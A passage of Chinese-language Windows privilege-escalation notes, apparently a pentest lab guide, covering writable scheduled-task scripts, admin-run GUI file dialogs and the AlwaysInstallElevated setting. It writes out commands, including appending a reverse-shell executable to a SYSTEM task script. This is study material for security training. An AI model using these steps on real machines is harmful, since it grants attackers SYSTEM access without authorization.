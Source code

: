 ###### 计划任务提权

关联查看枚举计划任务

查看C：\ DevTools \ CleanUp.ps1脚本的内容：

```
type C:\DevTools\CleanUp.ps1
```

该脚本似乎每分钟都以SYSTEM身份运行。使用accesschk.exe，请注意，您可以写入此文件：

```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

在Kali上启动侦听器，然后向C：\ DevTools \ CleanUp.ps1追加一行，该行将 运行您创建的reverse.exe可执行文件：

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

等待计划任务运行，这将触发反向Shell作为SYSTEM。

###### 图形化界面下的不安全的GUI程序

加入我们处在RDP会话或vnc等图形化界面下，可以利用程序打开文件时调出的导航栏的漏洞进行提权。

比如我们可以执行桌面上的“ AdminPaint”程序。运行后，打开命令提示符，执行命令可以注意到Paint正在以管理员权限运行

```
tasklist /V | findstr mspaint.exe
```

![image-20200712173507913](assets/8.提权.assets/image-20200712173507913.png)

在“画图”中，单击“文件”，然后单击“打开”。在打开文件对话框中，单击导航输入：（注意必须是在导航栏输入，并且回车。而不是点击gui的打开按钮）

`file://c:/windows/system32/cmd.exe`

并单击回测Enter

生成具有管理员权限运行的命令提示符。

###### AlwaysInstallElevated 

首先，在Windows系统上，我们应该检查AlwaysInstallElevated 设置的状态。如果在HKEY_CURRENT_USER或HKEY_LOCAL_MACHINE中启用了此键（设置为1），则任何用户都可以以提升的特权运行Windows Installer程序包。我们可以使用reg查询来检查这些设置。如果启用此设置，我们可以制作一个MSI文件并运行它以提升特权



![image-20200526212935421](assets/8.提权.assets/image-20200526212935421.png)
